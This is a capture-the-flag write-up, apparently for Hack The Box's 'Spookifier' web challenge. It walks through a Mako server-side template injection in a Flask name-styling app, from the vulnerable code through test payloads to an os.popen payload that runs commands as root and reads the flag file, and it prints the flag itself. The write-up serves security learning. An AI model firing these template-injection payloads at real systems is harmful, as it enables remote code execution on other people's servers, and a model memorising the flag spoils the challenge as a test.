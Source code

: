 # Spookifier

## The Problem

Rating: easy


Flavor Text:
```
There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
```

Attachments : [./web_spookifier.zip](./web_spookifier.zip)


## Solution

so posts to this page comes back with the text in a few different "fonts"

step one does:
```
def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)
```

I think we need to get the formatting correct for the listing

change font does:
```
def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts

```

but need it to print in a way that runs system commands
the "'''.format(*converted_fonts)" line could be an issue

generate_render does the print
```
def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()
```


so most injection tests dont seem to work out. butttt the $ var indicator broke something

http://206.189.117.93:31729/?text=${{+config.items()[4][1].__class__.__mro__[2].__subclasses__()[40](\"/tmp/flag\").read()+}}

![](error.png)

our POC shows we are on the correct path

payload = ${7+7}

curl 'http://206.189.117.93:31729/?text=%24%7B7%2B7%7D'


lets dig in
--------------------
payload = ${ dir() }

result:
``` 
['__M_caller', '__M_locals', '__M_writer', 'context', 'dir', 'pageargs']
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako

payload = ${self.module.cache.util.os.system("id")}
result: 0

payload = ${self.module.cache.util.os}
result = <module 'os' from '/usr/local/lib/python3.8/os.py'>

payload = ${self.module.cache.util.os.system}
result = <built-in function system>

payload = ${self.module.cache.util.os.system(%27id%27)}
result 0

payload = ${self.module.cache.util.os.system(%27id%27)}
result 256

I think these require encoding changes as they are getting turned into ints?

need some help as those are not working
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#mako-python


payload = ${self.module.cache.util.os.popen('id').read()}
result = uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)


woot!!!

payload = ${self.module.cache.util.os.popen('cat /flag.txt').read()}
result = uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
result = HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}

## Flag
```
HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}
```

## Final Notes
